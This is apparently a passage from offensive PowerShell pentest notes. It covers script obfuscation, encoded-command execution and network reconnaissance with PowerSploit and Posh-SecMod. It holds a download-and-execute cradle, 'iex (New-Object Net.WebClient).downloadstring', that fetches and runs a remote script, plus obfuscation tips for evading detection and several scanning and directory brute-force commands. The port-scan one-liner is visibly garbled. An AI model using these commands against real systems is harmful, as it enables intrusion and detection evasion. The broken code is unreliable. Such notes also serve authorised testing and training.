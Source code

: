 - `SET SCRIPTBLOCK iex (New-Object Net.WebClient).downloadstring("http://192.168.3.3/Script.ps1")`
    
- Select medthod just by calling it by name.  
    `STRING`  
    Then select option you need. reverse option first concatenate and reverse entire string.
    
- Like that you can apply any methods and copy paste the result to run.
    
- `RESET` after one method is applied else the result will be very large.
    
- `LAUNCHER` is also good method for particular function.
    

`Write-Host $encodedCommand` and `powershell.exe -encodedcommand [command]`

* * *

* * *

## Information Gathering and Recon

*Port Scan*

![new.png](Pictures/a9.png)

`$po$port in $ports) {try{$socket=New-Object System.Net.Sockets.TcpClient($ip,$port);} catch{}; if ($socket -eq $null) {echo $ip":"$port" - Closed";} else {echo $ip":"$port" - Open"; $socket=$null;}}`

- The same can be obtained by [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) with [Invoke-Portscan](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1) cmdlet.  
    `Invoke-Portscan -Hosts "192.168.1.1" -PingOnly`  
    `Invoke-Portscan -HostFile ips.txt -PingOnly`  
    `Invoke-Portscan -HostFile ips.txt -PingOnly | Export-Csv c:\ping_scan.csv`  
    `Invoke-Portscan -HostFile live_hosts.txt -ports "53-81"`  
    `Invoke-Portscan -HostFile live_hosts.txt -oG port_scan.gnmap -f -ports "1-81"`

[Get-HttpStatus](https://powersploit.readthedocs.io/en/latest/Recon/Get-HttpStatus/) is like drbuster, dirb....  
`Get-HttpsStatus -Target 192.168.1.2 -Path dictionary.txt -Port 80 | ? {$_.Status -match "ok"}`

[Posh-SecMod](https://github.com/darkoperator/Posh-SecMod)  
`Invoke-ARPScan -CIDR 192.168.1.3/24`  
`Get-Command -Module Posh-SecMod`  
`Invoke-ReverseDnsLookup -CIDR 192.168.13.0/24`  
`Get-Help Resolve-HostRecord -Examples`

* * *

* * *
